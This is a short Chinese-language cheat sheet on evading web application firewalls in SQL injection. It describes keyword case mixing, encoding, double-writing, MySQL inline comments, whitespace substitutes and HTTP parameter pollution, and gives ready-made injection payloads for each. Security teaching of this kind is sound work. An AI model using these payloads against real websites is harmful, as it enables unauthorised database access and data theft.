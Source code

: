 # SQL注入之WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1647683310000/eaf7c52124254ea59a9cba144ae61b53.png)

# 关键词大小写绕过

```
    有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用这一点来进行绕过

    举例： union select ---> unIOn SeLEcT
```

# 编码绕过

```
    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23
```

# 双写绕过

```
    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd
```

# 换行(\N)绕过

```
    举例：select * from admin where username = \N union select 1,user() from admin
```

# 注释符内联注释绕过：

```


    union selecte =/*!union*/ select

    注释符里感叹号后面的内容会被mysql执行。
```

# 同义词替换

```
    and=&&

    or=||

    =(等于号)=<、>

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格
```

# HTTP参污染

```
    对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个。

    举例：?id=1&id=2&id=3
    ?id=1/**&id=-1%20union%20select%201,2,3%23*/
```

### `WAF绕过的思路就是让WAF的检测规则，识别不到你所输入的敏感字符，利用上述所介绍的知识点，灵活结合各种方法，从而可以增加绕过WAF的可能性`


```
and or绕过：%20/*//--/*/  V4.0
联合绕过：union/*//--/*/  /*!--+/*%0aselect/*!1,2,3*/ --+
from绕过： /*!06447%23%0afrom*/
```
